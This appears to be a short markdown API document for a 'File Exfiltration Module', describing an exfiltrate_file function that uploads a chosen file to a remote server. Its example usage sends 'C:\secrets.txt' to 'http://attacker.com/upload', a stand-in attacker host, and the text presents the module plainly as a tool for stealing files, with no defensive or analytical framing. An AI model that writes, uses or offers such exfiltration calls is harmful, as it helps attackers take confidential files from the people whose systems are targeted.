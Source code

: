 
---

**File**: `File_Exfiltration_API.md`

```markdown
# File Exfiltration Module API Documentation

## Functions
### `exfiltrate_file(file_path, server_url)`
- **Description**: Exfiltrates a file to a remote server.
- **Parameters**:
  - `file_path`: The path to the file to exfiltrate.
  - `server_url`: The URL of the remote server.
- **Returns**: A string indicating success or failure.

## Example Usage
```python
from file_exfil import exfiltrate_file

# Exfiltrate a file to a remote server
result = exfiltrate_file("C:\\secrets.txt", "http://attacker.com/upload")
print(result)